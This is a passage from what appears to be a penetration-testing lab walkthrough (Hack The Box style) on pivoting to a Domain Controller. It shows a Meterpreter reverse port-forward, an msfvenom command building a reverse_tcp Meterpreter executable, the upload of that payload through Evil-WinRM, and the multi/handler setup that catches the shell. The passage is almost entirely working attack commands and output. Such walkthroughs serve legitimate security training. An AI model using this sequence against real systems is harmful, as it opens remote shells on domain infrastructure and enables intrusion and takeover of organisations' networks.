 Next, set up a local port forwarding rule to forward all traffic destined to port `1234` on dmz01 to port `8443` on our attack host.

Post-Exploitation

```shell-session
(Meterpreter 1)(/root) > portfwd add -R -l 8443 -p 1234 -L 10.10.14.15
[*] Reverse TCP relay created: (remote) :1234 -> (local) [::]:1234
```

Next, create an executable payload that we'll upload to the Domain Controller host.

Post-Exploitation

```shell-session
swmpdnky@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.8.120 -f exe -o dc_shell.exe LPORT=1234

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: dc_shell.exe
```

Upload the payload to the DC.

Post-Exploitation

```shell-session
*Evil-WinRM* PS C:\> upload "/home/tester/dc_shell.exe" 

Info: Uploading /home/tester/dc_shell.exe to C:\\dc_shell.exe
                                                          
Data: 9556 bytes of 9556 bytes copied

Info: Upload successful!
```

Background the Meterpreter session

Post-Exploitation

```shell-session
(Meterpreter 1)(/root) > bg
[*] Backgrounding session 1...
[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) >>
```

Start another multi/handler in the same msfconsole session to catch the shell from the DC.

Post-Exploitation

```shell-session
[msf](Jobs:0 Agents:1) exploit(multi/handler) >> set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:1) exploit(multi/handler) >> set lhost 0.0.0.0
lhost => 0.0.0.0
[msf](Jobs:0 Agents:1) exploit(multi/handler) >> set lport 8443
lport => 8443
[msf](Jobs:0 Agents:1) exploit(multi/handler) >> exploit
```
